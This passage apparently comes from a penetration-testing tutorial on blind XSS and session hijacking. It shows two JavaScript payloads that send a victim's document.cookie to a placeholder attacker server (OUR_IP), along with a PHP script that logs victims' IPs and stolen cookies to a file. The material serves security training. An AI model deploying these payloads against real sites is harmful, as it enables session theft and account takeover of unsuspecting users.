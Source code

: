 If we get a request for http://OUR_IP/username, then we know that the username field is vulnerable to XSS, and so on. With that, we can start testing various XSS payloads that load a remote script and see which of them sends us a request. The following are a few examples we can use from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss)

Before we start sending payloads, we need to start a listener on our VM, using netcat or php as shown in a previous section.

Now we can start testing these payloads one by one by using one of them for all of input fields and appending the name of the field after our IP, as mentioned earlier.

## Session Hijacking
Once we find a working XSS payload and have identified the vulnerable input field, we can proceed to XSS exploitation and perform a Session Hijacking attack.

A session hijacking attack is very similar to the phishing attack we performed in the previous section. It requires a JavaScript payload to send us the required data and a PHP script hosted on our server to grab and parse the transmitted data.

There are multiple JavaScript payloads we can use to grab the session cookie and send it to us, as shown by [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc):

```js
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

We can write any of these JavaScript payloads to script.js, which will be hosted on our VM as well.

Now, we can change the URL in the XSS payload we found earlier to use script.js (don't forget to replace OUR_IP with your VM IP in the JS script and the XSS payload).

With our PHP server running, we can now use the code as part of our XSS payload, send it in the vulnerable input field, and we should get a call to our server with the cookie value. However, if there were many cookies, we may not know which cookie value belongs to which cookie header. So, we can write a PHP script to split them with a new line and write them to a file. In this case, even if multiple victims trigger the XSS exploit, we'll get all of their cookies ordered in a file.

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Now, we wait for the victim to visit the vulnerable page and view our XSS payload. Once they do, we will get two requests on our server, one for script.js, which in turn will make another request with the cookie value:

